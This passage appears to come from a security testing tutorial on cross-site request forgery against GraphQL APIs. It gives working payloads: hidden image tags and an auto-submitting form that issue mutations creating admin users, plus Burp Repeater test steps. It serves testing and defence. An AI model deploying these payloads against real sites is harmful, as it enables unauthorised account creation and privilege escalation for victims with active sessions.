 While GraphQL operations are typically submitted via POST requests, some implementations also support GET requests with the query in URL parameters:

```
https://api.example.com/graphql?query=mutation{createUser(username:"malicious",role:"admin"){id}}
```

If the API accepts GET requests and relies solely on cookies for authentication, it may be vulnerable to CSRF attacks. An attacker could create a malicious website that triggers this request:

```html
<img src="https://api.example.com/graphql?query=mutation{createUser(username:'attacker',role:'admin'){id}}" style="display:none">
```

When a victim with an active session visits this page, their browser automatically includes their authentication cookies, potentially executing the mutation.

Testing for GET-based CSRF with Burp Repeater:

1. **Test if GET requests are supported**:
   - Create a simple GraphQL query in Burp Repeater
   - Convert it from POST to GET by moving the query to URL parameters:
     ```
     GET /graphql?query=query{__typename} HTTP/1.1
     Host: example.com
     ```

2. **Test mutations via GET**:
   - If GET requests work, try a mutation via GET:
     ```
     GET /graphql?query=mutation{createUser(username:"test",role:"user"){id}} HTTP/1.1
     Host: example.com
     ```

3. **Create a CSRF PoC HTML page**:
   - If mutations via GET work, create a simple HTML page:
     ```html
     <!DOCTYPE html>
     <html>
     <body>
       <h1>Test Page</h1>
       <img src="https://api.example.com/graphql?query=mutation{createUser(username:'csrf_test',role:'admin'){id}}" style="display:none">
     </body>
     </html>
     ```

4. **Test the PoC**:
   - Save the HTML to a file
   - Open it in a browser where you have an active session with the target site
   - Check if the mutation executes successfully

For POST-based CSRF, you can test with a more sophisticated HTML form that submits automatically:

```html
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
  <form action="https://api.example.com/graphql" method="POST" enctype="text/plain">
    <input name='{"query":"mutation{createUser(username:' value='"csrf_test",role:"admin"){id}}"}' type="hidden">
  </form>
</body>
</html>
```
